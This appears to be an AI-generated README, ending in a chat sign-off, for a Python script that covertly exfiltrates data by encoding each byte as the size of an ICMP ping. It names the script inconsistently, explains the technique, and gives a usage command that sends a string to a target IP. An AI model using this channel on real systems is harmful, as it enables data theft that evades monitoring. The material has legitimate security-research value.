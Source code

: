 Here’s a simple README for the icmpexfil.py script:

pyexfil.py

Description

pyexfil.py is a Python script designed to covertly exfiltrate data by encoding it as ICMP packet sizes and sending them to a target IP address using the ping command. The script works by converting a given string into its byte representation and then sending a single ping for each byte, with the size of the ping corresponding to the byte value.

How It Works

	1.	The user provides a target IP address and the data they want to exfiltrate.
	2.	The script encodes the data into bytes.
	3.	It sends ICMP echo requests (ping) to the target IP with the byte values as the packet size.

Note: This script is intended for educational purposes only. Unauthorized use of this script to exfiltrate data without permission is illegal.

Requirements

	•	Python 3.x
	•	ICMP ping capabilities on the system
	•	Administrative privileges (may be required for ICMP operations depending on your environment)

Usage

python pyexfil.py <IP> <data>

Arguments:

	•	<IP>: The target IP address to send the pings to.
	•	<data>: The data string to be encoded and sent via ICMP packets.

Example:

python pyexfil.py 192.168.1.100 "HelloWorld"

This will send pings to 192.168.1.100, with each byte of the string HelloWorld converted to its ASCII byte value and sent as the packet size.

How to Install

	1.	Clone the repository or download the pyexfil.py file.
	2.	Ensure Python 3.x is installed on your system.
	3.	Run the script as shown in the usage example.

Limitations

	•	This script sends ICMP packets with sizes corresponding to ASCII values. Some systems may filter or limit ping packet sizes.
	•	The script is intended for educational and security research purposes only. Unauthorized use can lead to legal consequences.

Legal Disclaimer

This script is provided for educational purposes only. The author is not responsible for any misuse or damage caused by this script. Use responsibly and ensure you have explicit permission before running this script against any system.

License

This project is licensed under the MIT License. See the LICENSE file for details.

Let me know if you need any adjustments or additional details!
